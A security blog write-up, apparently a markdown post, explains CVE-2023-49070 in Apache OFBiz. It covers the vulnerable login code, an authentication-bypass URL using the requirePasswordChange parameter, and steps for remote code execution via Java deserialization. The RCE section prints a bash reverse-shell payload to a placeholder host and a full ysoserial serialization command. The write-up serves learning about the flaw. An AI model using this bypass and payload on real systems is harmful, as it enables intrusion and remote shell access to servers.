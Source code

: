 ```yaml
---
title: CVE-2023-49070 (Apache OFBIZ)
description: >-
  inspired by CTF writeup
author: Cronus
date: 2024-04-12 22:47:00 
categories: [Security, 1-Day]
tags: [1-Day]
pin: false
---
```


### **1\. What is "EPR(Enterprise Resource Planning) System"?**

-   A system designed to help different departments within a company communicate with each other efficiently.
-   User can manage accounting, supply chain, project etc..

### **2\. What is "Apache OFBIZ(Open For Business)"?**

-   EPR system based on Java language, created by Apache company
-   Platforms utilized to manage and automate the various tasks performed by different departments

### **3\. About XML**

-   XML File : file written in Markup Language that can communicate with application
-   XML-RPC : A communication method that uses HTTP communication based on XML files to call remote methods.

e.g)

```xml
<?xml version="1.0"?>

<methodCall>

   <methodName>examples.getStateName</methodName>

   <params>

      <param>

         <value><int>41</int></value>

       </param>

    </params>

 </methodCall>
```

Above code send the value "41" (which type is int) to examples.getStateName method.

### **4\. CVE-2023-49070**

```
Target : Apache OFBIZ( <= 18.12.09)
Vulerability : Bypass authentication and Trigger RCE via Java deserialization vulnerability
CVE Score : 9.8
```

**\[ Vulnerable Code \]**

```java
// framework/webapp/src/main/java/org/apache/ofbiz/webapp/control/LoginWorker.java
// Line: 437
    List<String> unpwErrMsgList = new LinkedList<String>();
    if (UtilValidate.isEmpty(username)) {
        unpwErrMsgList.add(UtilProperties.getMessage(resourceWebapp, "loginevents.username_was_empty_reenter", UtilHttp.getLocale(request)));
    }
    if (UtilValidate.isEmpty(password) && UtilValidate.isEmpty(token)) {
        unpwErrMsgList.add(UtilProperties.getMessage(resourceWebapp, "loginevents.password_was_empty_reenter", UtilHttp.getLocale(request)));
    }
    boolean requirePasswordChange = "Y".equals(request.getParameter("requirePasswordChange"));
    if (!unpwErrMsgList.isEmpty()) {
        request.setAttribute("_ERROR_MESSAGE_LIST_", unpwErrMsgList);
        return  requirePasswordChange ? "requirePasswordChange" : "error";
    }
```

1.  Check whether username and password parameter are empty
2.  Check  whether "requirePasswordChange" parameter is "Y"

**\[ Point \]**

This check is independent of the username and password validations. This mean, whether username and password is correct or not, you can bypass this login if you send only "requirePasswordChange" parameter as "Y".

**\[ Pratice \]**

![1.png](assets/img/CVE-2023-49070/1.png)

1.  When you connect to the /webtools/control/xmlprc endpoint, you will see the login page.  
    ( you are redirected to /webtools/control/checkLogin )
2.  Enter to https://localhost:8443/webtools/control/xmlprc;/?USERNAME=abc&PASSWORD=def&RequirePasswordChange=Y . Then you can check its response code is 200.  
    (This means the authentication logic was bypassed and the xmlrpc namespace page returned successfully. )

-   Verify normal communication with the server

![2.png](assets/img/CVE-2023-49070/2.png)

### **5\. How to trigger RCE ?**

1.  Serialize your password by using [yoserial](https://github.com/frohoff/ysoserial) tool
2.  Capture the packet and send POST method request to "/webtools/control/xmlrpc/?USERNAME=~&PASSWORD=~" 
3.  Modify Content-Type as "application/xml"
4.  Send body data in XML format.

**How to Serialize?**

```bash
[ Key Payload ] 
bash -c “bash -i >& /dev/tcp/<ipaddress>/<port> 0>&1”

[ Serialize Command ] 
java -jar --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED --add-opens java.base/java.net=ALL-UNNAMED --add-opens=java.base/java.util=ALL-UNNAMED ysoserial.jar CommonsBeanutils1 'bash -c “bash -i >& /dev/tcp/<IP>/<PORT> 0>&1”' | base64 | tr -d "\n"/
```

**Request & Response**

![3.png](assets/img/CVE-2023-49070/3.png)